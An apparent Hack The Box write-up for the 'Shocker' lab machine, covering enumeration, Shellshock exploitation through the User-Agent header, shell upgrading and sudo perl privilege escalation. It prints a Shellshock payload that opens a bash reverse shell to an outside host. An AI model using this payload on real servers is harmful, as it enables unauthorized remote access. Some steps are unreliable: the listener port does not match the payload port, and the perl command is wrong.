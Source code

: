 ```yaml
---
author: "FBueller"
title: "Shocker Writeup HTB"
date: "2022-12-16T21:49:08-08:00"
description: "Sample article showcasing basic Markdown syntax and formatting for HTML elements."
FRtags: ["markdown", "css", "html", "themes"]
FRcategories: ["themes", "syntax"]
FRseries: ["Themes Guide"]
aliases: ["migrate-from-jekyl"]
ShowToc: true
TocOpen: true
weight: 2
---
```

##### [HTB SHOCKER]
```bash
GET /cgi-bin/user.sh HTTP/1.1
Host: 10.10.10.56
User-Agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.5/4444 0>&1'
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1


```

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
```bash
-   ```
    perl -e 'exec "cat /root";'
    ```
```
#### Solving
- start off by doing an nmap scan
- after doing the nmap scan you should notice there are two ports that are shown to be opened
- the first port is 80, and the second is 2222
- port 80 is http, and is likely hosting a web page
- port 2222 is hosting ssh which is uncommon 
- after visting the web page, I see that there isnt much on it
- I will now use dirbuster ( a tool used to bruteforce directories using a wordlist )
- after using dirbuster I see that there is a directory for /cgi-bin
- CGI = (commen gateway interface)
- This file path is used to host scripts that use enviorment varibles that interact with the web browser 
- after visting the page I can see I get a error 403 which means this page exists but is forbidden
- I can use dirbuster agian to scan the directories inside ofthe directory /cgi-bin/
- in dirbuster I can specify that I want to look for a specific file type 
- in this case I am going to search for script file extensions (example: sh, py, php etc...)
- after doing this I have found a user.sh 
- When i vist the page /cgi-bin/user.sh it downloads a file for user.sh which is a short script for checking uptime or some bullshit
- I will look at the get/post request in burp suite
- I can see based off the cgi-bin that this web page may be vunerable to a shellshock attack
- shellshock is a remote code exectution vunurabity that often doesnt have comfirmation
- all that means is that you may be able to execute code on the backend server, but unless specifically using something to echo a response back you might not see anything 
- you can also see a response back though the http header response 
- in burp suite I am going to focus on the user agent parameter in the http request 
- inside of the user-agent area I am going to try and use a basic shellshock
```bash
() { :; }; echo; echo ls 
```
- now that I have been able to test that remote code execution is possible I can try to get a reverse shell through
- The reverse shell command I used is above 
- I will have to listen for the reverse shell using netcat
```bash
nc -lvnp 80 
```
- You should now be able to access the shell 
- now you have to upgrade to a more stable shell 
```bash
    # <catch reverse shell>
    python3 -c 'import pty; pty.spawn("/bin/bash")'
    # (inside the nc session) PRESS CTRL+Z to background your shell
    
    # back in your terminal enter
    stty raw -echo; fg
    # may need to hit enter a couple times
    
    # now you should be back in your reverse shell (fg, foregrounds your "backgrounded" process)
    export SHELL=/bin/bash; export TERM=screen
    
    # for this part you need to know the size of your terminal, which you can figure out by typing `stty size`, but this has to be done BEFORE you catch your reverse shell
    # once you know this, you can change "38" and "116" in the command below, and execute it in your reverse shell
    stty rows 38 columns 116; reset;
```
- now you can use subl to see what commands the current user can use with sudo permissions
- you can also check your permissions using groups to see what group your in
- you can also use "cat /etc/passwd" to see what shell your user is using 
- on this machine I can see that I am using perl so I will 
- seeing that this machine allows me to run perl with sudo permissions is a hint that perl will be my exploit
- I can use GTF-BINs to break bash 
- make sure to run the command from GTFO Bin as sudo
- This is becuase perl is one of the commands the current user is aloowed to run with sudo permissions


### upgrading shell 
- you have to use pythons pty to spawn a bash shell
- python3 -c 'import pty;pty.spawn("/bin/bash")'
- after that you will wantto background the shell (CTRL+Z)
- while in ur host machines shell you can check some information
- you can use "stty -a" to get you terminals demensions
- and "echo $TERM" to check your terminals color
- then run "stty raw -echo"

